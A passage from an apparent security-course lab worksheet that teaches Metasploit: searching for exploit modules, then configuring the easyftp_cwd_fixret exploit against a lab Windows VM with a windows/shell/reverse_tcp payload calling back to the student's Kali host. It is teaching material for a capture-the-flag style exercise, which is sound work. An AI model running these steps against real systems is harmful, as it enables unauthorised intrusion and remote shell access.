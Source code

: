 ==action: Based on the output from this, display the module details:==

```bash
msf > info exploit/windows/==edit:module_name==
```

Where *module_name*, was obtained from the previous search.

Based on what you have learned:

==action: Search for exploits for Windows XP==

==action: Search for exploits with the word "buffer overflow" anywhere in the description==

==action: Search for exploits with a CVE starting with 2018 or 2019==

==action: Search for exploits for Linux==

==action: Search for exploits for the IRC server on one of the target VMs==

### Launching Metasploit exploits[^3] {#launching-metasploit-exploits}

Now that you have identified the Metasploit exploit module based on previous scanning, ==action: you can use the module:==

```bash
msf > use exploit/windows/==edit:module_name==
```

==action: Check the required options:==

```bash
msf (windows/ftp/easyftp_cwd_fixret) > show options
```

==action: Set the options (where IP-address is the Win2k VM's IP address):==

```bash
msf (windows/ftp/easyftp_cwd_fixret) > set RHOST ==edit:IP-address1==
```

==action: Show compatible payloads:==

```bash
msf (windows/ftp/easyftp_cwd_fixret) > show payloads
```

==action: Select and configure a payload:==

```bash
msf (windows/ftp/easyftp_cwd_fixret) > set PAYLOAD windows/shell/reverse_tcp
```

```bash
msf (windows/ftp/easyftp_cwd_fixret) > set LHOST ==edit:KALI_HOST_ONLY_IP_ADDRESS==
```

==action: Test whether the target is vulnerable:==

```bash
msf (windows/ftp/easyftp_cwd_fixret) > check
```


[^1]:  There has been some discussion within the Debian community about whether the latest version of Metasploit has a “free” license, but the framework itself seems to be licensed using a BSD-like license.
[^2]:  If you get an error saying “postgresql selected, no connection”, try running msfdb delete followed by msfdb init.
[^3]:  If you have already found the Windows flag, you can skip this section.
[^4]:  If you have already found the Windows flag, you can skip the step-by-step instructions to hack into the Windows machine. Instead, you should use Armitage to break into the Linux machine and find the flag.
[vm_launch_icon]: {{ site.baseurl }}/assets/images/common/vm_launch_icon.png
[armitage_set_local_ip_address]: {{ site.baseurl }}/assets/images/introducing_attacks/6_exploitation/armitage_set_local_ip_address.png
[metasploit_launch_slide]: {{ site.baseurl }}/assets/images/introducing_attacks/6_exploitation/metasploit_launch_slide.png
[armitage_compromised]: {{ site.baseurl }}/assets/images/introducing_attacks/6_exploitation/armitage_compromised.png
[armitage_attack_menu_easyftp]: {{ site.baseurl }}/assets/images/introducing_attacks/6_exploitation/armitage_attack_menu_easyftp.png